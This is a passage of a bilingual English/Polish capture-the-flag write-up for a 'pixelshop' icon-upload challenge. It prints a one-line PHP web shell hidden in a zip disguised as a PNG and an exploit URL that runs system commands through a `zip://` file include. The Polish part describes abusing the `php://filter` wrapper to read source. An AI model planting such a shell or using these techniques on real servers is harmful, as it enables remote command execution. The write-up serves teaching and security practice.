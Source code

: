 Which can be also unzipped, and inside stores `s.php` file with a simple PHP shell inside

```php
<?php $_GET['a']($_GET['b']); ?>
```

With this file safely uploaded in the server as `847cf5ebb78615e61ab646189e3ffbff138801ad.png` we can finally run:

`http://pixelshop.pwning.xxx/?a=system&b=ls /&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Which runs `system('ls /')`.

![](ls.png)

![](cat.png)

And we finally get the flag:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `

###PL version

Dostajemy dostęp do strony pozwalającej na uploadowanie ikonek (max 32x32) oraz na rysowanie/edytowanie ikonek przez wbudowany edytor.
Ikonki są następnie zapisywane w katalogu /uploads z losową nazwą jako pliki png.
Pierwsza rzecz którą zauważyliśmy to fakt, że nawigacja strony odbywa się za pomocą parametru GET `op`, np. `http://pixelshop.pwning.xxx/?op=upload`
Próba umieszczania tam różnych wartości pozwala stwierdzić że ten parametr jest używany jako argument dla include plików `.php`
Wykorzystaliśmy więc filtr-wrapper php `php://filter/read=convert.base64-encode/resource=` żeby wymusić konwersje pliku do base64 przed includowaniem:
